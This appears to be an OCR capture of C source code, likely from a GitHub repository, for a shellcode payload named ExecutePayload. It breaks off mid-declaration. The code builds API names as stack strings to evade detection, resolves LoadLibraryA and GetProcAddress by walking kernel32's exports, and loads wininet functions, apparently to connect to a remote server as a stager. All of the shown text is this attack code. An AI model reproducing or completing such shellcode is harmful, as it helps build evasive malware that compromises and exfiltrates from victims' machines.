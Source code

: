     //Our 32bit entrypoint, helps avoid bloat caused by mingw and main functions
    int ExecutePayload()
    {
        // Stack based strings for libraries and functions the shellcode needs
        wchar_t kernel32_dll_name[] = { 'k','e','r','n','e','l','3','2','.','d','l','l', 0 };
        char load_lib_name[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 };
        char get_proc_name[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s', 0 };

        // resolve kernel32 image base
        LPVOID base = get_module_by_name((const LPWSTR)kernel32_dll_name);
        if (!base) {
            return 1;
        }

        // resolve loadlibraryA() address
        LPVOID load_lib = get_func_by_name((HMODULE)base, (LPSTR)load_lib_name);
        if (!load_lib) {
            return 2;
        }

        // resolve getprocaddress() address
        LPVOID get_proc = get_func_by_name((HMODULE)base, (LPSTR)get_proc_name);
        if (!get_proc) {
            return 3;
        }

        // loadlibrarya and getprocaddress function definitions
        HMODULE(WINAPI * _LoadLibraryA)(LPCSTR lpLibFileName) = (HMODULE(WINAPI*)(LPCSTR))load_lib;
        FARPROC(WINAPI * _GetProcAddress)(HMODULE hModule, LPCSTR lpProcName)
            = (FARPROC(WINAPI*)(HMODULE, LPCSTR)) get_proc;

        char wininet_dll_name[] = { 'w','i','n','i','n','e','t','.','d','l','l', 0 };
        char internetopenw_name[] = { 'I','n','t','e','r','n','e','t','O','p','e','n','A',0 };
        LPVOID wininet_dll = _LoadLibraryA(wininet_dll_name);

        HINTERNET (WINAPI * _InternetOpenA)(
            _In_opt_ LPCSTR lpszAgent,
            _In_opt_ DWORD   dwAccessType,
            _In_opt_ LPCSTR lpszProxy,
            _In_opt_ LPCSTR lpszProxyBypass,
            _In_ DWORD   dwFlags
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ LPCSTR lpszAgent,
                _In_opt_ DWORD   dwAccessType,
                _In_opt_ LPCSTR lpszProxy,
                _In_opt_ LPCSTR lpszProxyBypass,
                _In_ DWORD   dwFlags)) _GetProcAddress((HMODULE)wininet_dll, internetopenw_name);

        char internetconnecta_name[] = { 'I','n','t','e','r','n','e','t','C','o','n','n','e','c','t','A',0 };
        HINTERNET (WINAPI * _InternetConnectA)(
            _In_opt_ HINTERNET     hInternet,
            _In_opt_ LPCSTR       lpszServerName,
            _In_opt_ int nServerPort,
            _In_opt_ LPCSTR       lpszUserName,
            _In_opt_ LPCSTR       lpszPassword,
            _In_opt_ DWORD         dwService,
            _In_opt_ DWORD         dwFlags,
            _In_ DWORD_PTR     dwContext
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ HINTERNET     hInternet,
                _In_opt_ LPCSTR       lpszServerName,
                _In_opt_ int nServerPort,
                _In_opt_ LPCSTR       lpszUserName,
                _In_opt_ LPCSTR       lpszPassword,
                _In_opt_ DWORD         dwService,
                _In_opt_ DWORD         dwFlags,